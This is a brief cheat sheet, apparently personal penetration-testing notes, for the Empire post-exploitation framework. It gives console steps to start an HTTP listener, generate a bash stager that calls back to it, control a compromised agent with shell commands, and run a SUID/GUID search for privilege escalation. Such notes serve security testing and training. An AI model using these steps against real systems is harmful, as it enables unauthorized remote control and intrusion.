 === empire

https://github.com/EmpireProject/Empire

==== Setup a listener

- `listeners` Switch to listeners menu
- `uselistener http`
- `set Name test`
- `set Port 8000`
- `set Host http://127.0.0.1:8000`
- `execute`

==== Generate a stager
- `usestager multi/bash`
- `set Listener test`
- `generate`


==== After you botch the listener

- `listeners`
- `edit test Host http://172.100.100.100:8000`
- `disable test`
- `enable test`

==== Using an agent

- `agents`
- `interact Q2CT0UO9`
- `shell id` Run a shell command
- `usemodule situational_awareness/host/multi/SuidGuidSearch`
- `execute`

<<<
